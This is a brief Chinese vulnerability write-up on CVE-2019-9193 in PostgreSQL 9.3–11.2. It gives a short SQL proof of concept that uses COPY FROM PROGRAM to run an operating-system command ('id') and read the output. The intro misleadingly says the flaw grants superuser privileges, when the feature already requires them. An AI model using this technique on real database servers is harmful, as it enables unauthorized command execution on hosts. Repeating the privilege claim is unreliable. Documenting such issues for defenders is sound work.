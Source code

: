 （CVE-2019-9193）PostgreSQL 高权限命令执行漏洞
==============================================

一、漏洞简介
------------

PostgreSQL
9.3至11.2版本中的导入导出数据命令`COPY TO/FROM PROGRAM`存在操作系统命令注入漏洞。攻击者可利用该漏洞获取数据库超级用户权限，从而执行任意系统命令。

二、漏洞影响
------------

PostgreSQL 9.3至11.2

三、复现过程
------------

首先连接到postgres中，并执行如下POC：

    DROP TABLE IF EXISTS cmd_exec;
    CREATE TABLE cmd_exec(cmd_output text);
    COPY cmd_exec FROM PROGRAM 'id';
    SELECT * FROM cmd_exec;

![1.png](./resource/(CVE-2019-9193)PostgreSQL高权限命令执行漏洞/media/rId24.png)

![2.png](./resource/(CVE-2019-9193)PostgreSQL高权限命令执行漏洞/media/rId25.png)
